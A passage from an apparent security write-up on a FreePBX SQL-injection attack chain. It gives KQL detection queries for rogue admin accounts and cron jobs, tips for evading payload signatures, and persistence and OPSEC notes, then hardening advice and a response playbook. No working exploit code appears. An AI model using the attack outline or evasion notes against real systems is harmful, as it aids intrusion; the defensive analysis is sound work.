| where Query contains "INSERT INTO cron_jobs"
| project Timestamp, User, Query
```

```kql
// New Administrative Accounts

database_logs
| where Query contains "INSERT INTO ampusers"
| project Timestamp, User, Query
```


#### Resilience Test

##### Bypass

An attacker may avoid:

* EXTRACTVALUE
* error-based extraction
* webshell deployment

by using alternative SQLi techniques.

##### Countermeasure

Monitor:

* abnormal modifications to FreePBX tables
* scheduled job creation
* file creation within sensitive automation directories

rather than relying solely on specific payload signatures.


### Toolkit & Implementation

#### Automation

**Initial Access**

* SQL Injection Tooling
* Custom HTTP Requests

**Execution**

* FreePBX Scheduled Jobs
* Cron Processing

**Privilege Escalation**

* fwconsole Automation
* Incron Processing


#### OPSEC Analysis

##### Covert

Database activity may initially appear as legitimate application traffic because requests are routed through normal FreePBX functionality.

##### Overt

The attack leaves numerous artifacts:

* SQL errors
* database modifications
* new administrative accounts
* cron entries
* webshell files
* incron task files


#### Post-Exploitation

Persistence opportunities include:

* malicious FreePBX users
* scheduled jobs
* webshells
* modified automation workflows


### Defensive Mitigation

#### Technical Hardening

##### Patch Management

Update FreePBX and all Endpoint Manager components immediately.

##### Database Controls

* Restrict application database permissions.
* Separate read and write privileges where possible.

##### File Integrity Monitoring

Monitor:

```text
/var/www/html/
/var/spool/asterisk/incron/
/etc/asterisk/
/var/lib/asterisk/
```

##### Web Application Firewall

Block:

* SQL keywords
* XML extraction functions
* database metadata enumeration attempts

##### Privileged Automation

Ensure root-owned automation frameworks:

* validate inputs
* enforce ownership checks
* reject untrusted task files


#### Personnel Focus

##### Application Security Reviews

Audit:

* SQL query construction
* database permission boundaries
* task-processing workflows

##### Operational Monitoring

Train defenders to investigate:

* new FreePBX users
* unexpected cron entries
* unexplained fwconsole activity


### Quick-Action Playbook

| Step | Objective             | Technical Command / Logic                                                                     |
| :--: | :-- | :-- |
|  01  | **Enumerate**         | Identify FreePBX version, exposed modules, and reachable administrative endpoints.            |
|  02  | **Detect SQLi**       | Review Apache logs for requests containing SQL extraction functions and metadata enumeration. |
|  03  | **Review Database**   | Investigate recent modifications to `ampusers` and `cron_jobs`.                               |
|  04  | **Inspect Web Root**  | Search for newly created PHP files and unauthorized scripts.                                  |
|  05  | **Review Automation** | Audit cron, incron, and fwconsole task-processing activity.                                   |
|  06  | **Contain**           | Disable malicious users, remove unauthorized jobs, and isolate affected systems.              |
|  07  | **Eradicate**         | Patch FreePBX, rotate credentials, and rebuild compromised automation workflows.              |
|  08  | **Recover**           | Validate system integrity and restore normal operations from trusted baselines.               |
